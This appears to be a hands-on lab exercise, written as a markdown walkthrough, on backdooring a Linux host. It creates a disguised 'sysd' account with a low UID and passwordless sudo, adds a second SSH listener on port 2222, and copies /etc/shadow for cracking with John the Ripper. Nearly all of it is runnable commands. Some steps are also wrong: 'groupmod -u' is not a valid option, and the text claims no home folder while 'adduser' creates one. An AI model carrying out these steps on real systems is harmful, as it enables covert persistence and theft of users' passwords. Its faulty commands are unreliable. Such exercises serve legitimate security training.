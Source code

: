 # Advanced Bash - Owning the System
[Site reference #1](https://www.cyberciti.biz/faq/linux-set-change-password-how-to/)
[Site referance #2](https://phoenixnap.com/kb/how-to-enable-ssh-on-ubuntu)

## Shadow People
Create a secret user named sysd. Make sure this user doesn't have a home folder created:
`sudo adduser sysd`

Give your secret user a password:
`sudo passwd sysd`

Give your secret user a system UID < 1000:
`sudo usermod -u 900 sysd`

Give your secret user the same GID:
`sudo groupmod -u 900 sysd`

Give your secret user full sudo access without the need for a password:
`sudo visudo`
```bash
sysd ALL=(ALL:ALL) ALL 
sysd ALL=(ALL:ALL) NOPASSWD:ALL
```

Test that sudo access works without your password:
`sudo -l`

## Smooth Sailing
Edit the sshd_config file:
```bash
Port 22
Port 2222
```

## Testing Your Configuration Update
Restart the SSH service:
`sudo systemctl restart sshd.service`

Exit the root account:
`exit`

SSH to the target machine using your sysd account and port 2222:
`ssh sysd@192.168.6.105 -p 2222`

Use sudo to switch to the root user:
`sudo -s`

## Crack All the Passwords
SSH back to the system using your sysd account and port 2222:
`ssh sysd@192.168.6.105 -p 2222`

Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
`sudo -s`
`cp /etc/shadow ./shadow_copy`
`john shadow_copy`
`john shadow_copy --show`

